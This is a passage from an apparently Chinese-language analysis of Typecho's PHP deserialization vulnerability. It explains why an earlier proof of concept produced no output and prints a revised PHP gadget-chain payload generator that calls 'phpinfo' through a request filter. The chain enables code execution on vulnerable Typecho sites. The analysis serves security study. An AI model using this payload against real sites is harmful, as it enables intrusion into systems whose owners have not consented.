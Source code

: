 [![](https://p1.ssl.qhimg.com/t01e28df232165fa6cd.png)](https://p1.ssl.qhimg.com/t01e28df232165fa6cd.png)

但是执行结果会发生错误：[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](/Users/zouyanyun/Desktop/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/media/14.png)[![](https://p2.ssl.qhimg.com/t0189496365677b2241.png)](https://p2.ssl.qhimg.com/t0189496365677b2241.png)

为什么按照分析流程执行POC以后会发生错误？

经过分析发现，POC执行会导致Typecho触发异常，并且内部设置了Typecho_Exception异常类，触发异常以后Typecho会自动能捕捉到异常，并执行异常输出。

并且经过分析发现程序开头开启了ob_start(),该函数会将内部输出全部放入到缓冲区中，执行注入代码以后触发异常，导致ob_end_clean()执行，该函数会清空缓冲区。

解决方案：让程序强制退出，不执行Exception，这样原来的缓冲区内容就会输出出来。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](/Users/zouyanyun/Desktop/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/media/15.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01178f414d3e24c07a.png)

如上图所示，在Feed.php中__toString方法中第293行，可以给item[‘category’]赋值上对象，让其用数组的方式遍历对象时触发错误，强制退出程序。

修改后的POC如下：

```
&lt;?php
    class Typecho_Request
    `{`
        private $_params = array();
        private $_filter = array();

        public function __construct()
        `{`
            $this-&gt;_params['screenName'] = 1; // 执行的参数值
            $this-&gt;_filter[0] = 'phpinfo'; //filter执行的函数
        `}`
    `}`
    class Typecho_Feed`{`
        const RSS2 = 'RSS 2.0'; //进入toString内部判断条件
        private $_items = array();
        private $_type;
        function __construct()
        `{`
            $this-&gt;_type = self::RSS2;
            $_item['author'] = new Typecho_Request(); //Feed.php文件中触发__get()方法使用的对象
        $_item['category'] = array(new Typecho_Request());//触发错误
            $this-&gt;_items[0] = $_item;
        `}`
    `}`
    $exp = new Typecho_Feed();
    $a = array(
        'adapter'=&gt;$exp, // Db.php文件中触发__toString()使用的对象
        'prefix' =&gt;'typecho_'
    );
    echo urlencode(base64_encode(serialize($a)));
?&gt;
```
